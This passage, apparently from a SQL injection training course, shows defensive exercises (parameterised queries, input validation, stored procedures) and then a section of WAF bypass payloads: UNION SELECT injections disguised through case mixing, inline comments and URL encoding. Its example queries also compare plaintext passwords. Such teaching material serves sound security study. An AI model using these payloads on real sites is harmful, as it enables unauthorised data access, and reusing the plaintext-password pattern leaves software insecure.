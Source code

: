 **Python with psycopg2:**
```python
cursor.execute(
    "SELECT * FROM users WHERE username = %s AND password = %s",
    (username, password)
)
```

### Exercise 5.2: Input Validation
```php
// Whitelist validation
function validateInput($input, $type) {
    switch($type) {
        case 'id':
            return filter_var($input, FILTER_VALIDATE_INT);
        case 'email':
            return filter_var($input, FILTER_VALIDATE_EMAIL);
        case 'alphanumeric':
            return preg_match('/^[a-zA-Z0-9]+$/', $input);
        default:
            return false;
    }
}

// Escape special characters
$username = mysqli_real_escape_string($connection, $_POST['username']);
```

### Exercise 5.3: Stored Procedures
```sql
-- Create stored procedure
DELIMITER //
CREATE PROCEDURE AuthenticateUser(
    IN p_username VARCHAR(50),
    IN p_password VARCHAR(255)
)
BEGIN
    SELECT * FROM users 
    WHERE username = p_username 
    AND password = p_password;
END //
DELIMITER ;

-- Call from application
CALL AuthenticateUser(?, ?);
```

## Part 6: WAF Bypass Techniques

### Exercise 6.1: Common WAF Evasion
```sql
-- Case manipulation
' UnIoN SeLeCt 1,2,3 --

-- Comments
' UN/**/ION SEL/**/ECT 1,2,3 --

-- Encoding
' %55NION %53ELECT 1,2,3 --

-- Alternative syntax
' UNION ALL SELECT 1,2,3 --
' UNION DISTINCT SELECT 1,2,3 --

```